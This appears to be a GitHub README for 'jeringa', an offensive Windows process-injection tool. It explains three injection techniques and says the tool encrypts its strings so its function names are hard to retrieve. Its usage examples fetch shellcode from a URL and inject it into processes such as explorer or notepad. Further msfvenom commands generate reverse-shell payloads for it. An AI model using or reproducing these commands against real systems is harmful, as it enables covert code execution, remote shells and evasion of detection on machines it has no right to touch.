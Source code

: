 # jeringa

Tool for easy process injection. It implements several types of process injection and uses dynamic function loading using delegates and AES to encrypt all the strings, so the function names are not easiliy retrievable.
- Process listing: By process name or process owner
- Payload: As input argument or using a url to download it
- Process injection via:
    - inject-crt: OpenProcess + VirtualAllocEx + WriteProcessMemory + CreateRemoteThread
    - inject-apc: OpenProcess + VirtualAllocEx + WriteProcessMemory + OpenThread + QueueUserAPC 
    - earlybird:  CreateProcess + VirtualAllocEx + WriteProcessMemory + ResumeThread


--------------------------------------

### Process information

Option "list" to enumerate all processes or filter by name or owner:

```
jeringa.exe list [ all | PROCESS_NAME | PROCESS_OWNER]
```

Example - List all processes:

```
jeringa.exe list all
```

Example - List processes with a specific name ("explorer") or process owner ("DESKTOP-MA54241\ricardo"):

```
jeringa.exe list explorer
jeringa.exe list "DESKTOP-MA54241\ricardo"
```

--------------------------------------

###  Injection type "inject-crt" (OpenProcess + VirtualAllocEx + WriteProcessMemory + CreateRemoteThread)

You can use the process name and owner, or the PID. The payload can be in HEX format or a url to download it, if not the program asks for a value/url.

```
jeringa.exe inject-crt [(PROCESS_NAME PROCESS_OWNER) | PROCESS_PID] [ HEX_PAYLOAD | URL]
```

Example - Injection using process name, process owner and payload in HEX format:

```
jeringa.exe inject-crt explorer "DESKTOP-MA54241\ricardo" fc4883e4f0e8...
```

Example - Injection using PID ("1234") and a url to download the payload:

```
jeringa.exe inject-crt 1234 http://127.0.0.1/payload.bin
```

--------------------------------------

###  Injection type "inject-apc" (OpenProcess + VirtualAllocEx + WriteProcessMemory + OpenThread + QueueUserAPC)

You can use the process name and owner, or the PID. The payload can be in HEX format or a url to download it, if not the program asks for a value/url. 

For this one you must wait until the thread enters in alertable state, you can try it using Notepad and the option "Save as".

```
jeringa.exe inject-apc [(PROCESS_NAME PROCESS_OWNER) | PROCESS_PID] [ HEX_PAYLOAD | URL]
```

Example - Injection using process name, process owner and payload in HEX format:

```
jeringa.exe inject-apc explorer "DESKTOP-MA54241\ricardo" fc4883e4f0e8...
```

Example - Injection using PID ("1234") and a url to download the payload:

```
jeringa.exe inject-apc 1234 http://127.0.0.1/payload.bin
```


--------------------------------------

###  Injection type "earlybird" (CreateProcess + VirtualAllocEx + WriteProcessMemory + ResumeThread)

You only set the program path. The payload can be in HEX format or a url to download it, if not the program asks for a value/url.

Example - Injection using program path and payload in HEX format:

```
jeringa.exe earlybird "c:\windows\system32\notepad.exe" fc4883e4f0e8...
```

Example - Injection using program path and a url to download the payload:

```
jeringa.exe earlybird "c:\windows\system32\calc.exe" http://127.0.0.1/payload.bin
```

--------------------------------------

### Payload generation

You can use your custom payloads or use Msfvenom. In case you use the HEX payload option you must delete all "\x" or similar characters. If you use the url option the payload must be in raw format.

Example - Create payload in HEX format using Msfvenom with:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f c EXITFUNC=thread | grep '\x' | tr -d '"\n\\x;'
```

Example - Create payload in raw format for url option using Msfvenom with:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 EXITFUNC=thread -f bin > payload.bin
```
